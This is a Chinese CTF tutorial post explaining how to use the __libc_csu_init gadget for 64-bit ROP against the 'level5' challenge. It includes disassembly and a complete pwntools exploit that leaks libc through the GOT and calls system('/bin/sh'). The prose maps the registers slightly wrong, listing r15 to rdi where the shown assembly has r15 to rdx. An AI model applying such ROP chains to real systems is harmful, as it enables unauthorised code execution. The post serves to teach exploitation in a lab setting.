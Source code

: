 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN通用gadget学习 		 # 标题 
subtitle:   __libc_csu_init               # 副标题
date:       2018-07-30 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
    - PWN
---
```


# PWN,__libc_csu_init通用gadget学习
>例题下载:[蒸米level5](/files/pwn/level5.level)

__libc_csu_init函数是在libc初始化的时候用到的函数,所以在使用libc的文件中都会出现他  
  
在做64位的pwn题目的时候,函数的传参都是需要用到寄存器的  
>从第⼀一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

但是我们在rop的时候不一定可以控制全部的寄存器,可能会导致参数无法完全传递,这时候就可以利用__libc_csu_init来进行调用函数

首先来看函数的汇编  
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
需要注意的是 每个不同版本的 汇编可能都不同

下面来看分析  
显然在0x0400606之后我们可以控制rbx,rbp,r12,r13,r14,r15  
在0x04005F0中
```
r15 --> rdi  
r14 --> rsi
r13 --> edi
```
这里要注意的是 虽然只能够控制rdi的低32位,但实际上rdi的高32位也是0(可以自行调试)
在这里我们就可以控制rdi,rsi,rdi。并且可以调用r12所指的函数(要注意调用时要使用got地址)  

```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
这一处我们只需要使rbx + 1 = rbp就可以了  
我们就使用最简单的rbx = 0,rbp = 1  
  
溢出函数:
```c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

payload编写:  
1. 确定padding:0x88  
2. 编写csu利用函数


```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += 'A'*(7*8)
    payload += p64(main)
    s.sendline(payload)
```

这里需要注意 我们在覆盖完ret后,要先写入8字节将rsp覆盖到rsp+8。在控制完rbx,rbp等以后跳转到上方调用函数。在调用完之后,我们仍然需要覆盖ret,所以要往stack上继续覆盖8*8*7字节(6个寄存器+1个垃圾字节),因为要多次利用,所以要将ret覆盖为main

3. 利用write,leak出偏移地址
```python
write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")
```

4. 将system地址与/bin/sh写入bss  
   因为我们没有system_got的地址,所以我们需要首先把system_symbols写入bss,然后再通过csu调用bss来执行
```python
read_got = elf.got['read']
bss = 0x601038
csu(0,1,read_got,0,bss,16)
system = libc.dump("system") + offset
sleep(1)
s.send(p64(system))
s.send("/bin/sh\x00")
```
这里记得手动延时一下,不然可能会出现程序还没read,我们数据就已经发上去的情况

5. 调用system,GetShell
```python
csu(0,1,bss,bss+8,0,0)
s.interactive()
```

完整code:
```python
#-*-coding=utf-8-*-

from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep

s = process("./level5")
elf = ELF("./level5")
padding = 'A'*0x88
csu_end = 0x0400606
csu_start = 0x04005F0
main = 0x0400564

def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += '\x00'*(7*8)
    payload += p64(main)
    s.sendline(payload)

write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")

read_got = elf.got['read']
bss = 0x601038
system_addr = libc.dump("system") + offset
csu(0,1,read_got,0,bss,16)
sleep(1)
s.send(p64(system_addr))
s.send("/bin/sh\0")
print "send success"
csu(0,1,bss,bss+8,0,0)
s.interactive()
```



